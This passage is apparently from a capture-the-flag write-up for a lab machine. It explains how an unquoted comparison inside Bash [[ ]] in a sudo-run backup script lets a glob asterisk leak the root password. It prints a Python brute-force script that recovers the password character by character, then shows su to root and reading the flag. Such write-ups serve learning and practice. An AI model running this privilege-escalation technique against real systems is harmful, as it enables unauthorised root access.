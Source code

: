 The if statement section of the script contains vulnerable logic, with how it is written an attacker could place an asterisk as input and it will evaluate to true, since the use of __==__ inside __[[ ]]__ in Bash will make the asterisk be treated as a glob character. This means we can crack the mysql script credentials by bruteforcing every character in the password.

I was a bit confused on how to create a script to do this so I look up how to do this online since I am still a beginner with Python. I found a few writeups online from other CTF enthusiats all using the same script. I edited it slightly since the subprocess module was not present on the target for me.

```python
import string
import os

def check_password(p):
	command = f"echo '{p}*' | sudo /opt/scripts/mysql-backup.sh"
	result = os.popen(command).read()
	return "Password confirmed!" in result

charset = string.ascii_letters + string.digits
password = ""
is_password_found = False

while not is_password_found:
	for char in charset:
		if check_password(password + char):
			password += char
			break
	else:
		is_password_found = True

		with open("root-pass.txt", "w") as file:
			file.write(password)
```

The script run was successful and I was able to get the root password. I happened to save it to a text file in this instance.

```bash
joshua@codify:~$ cat root-pass.txt 
kljh12k3jha.........
```

We can also now successfully su to the root user!

```bash
joshua@codify:~$ su root
Password: 
root@codify:/home/joshua# cd /root
root@codify:~# cat root.txt 
12de91226e8a69dc............
```

# <(^^,)>
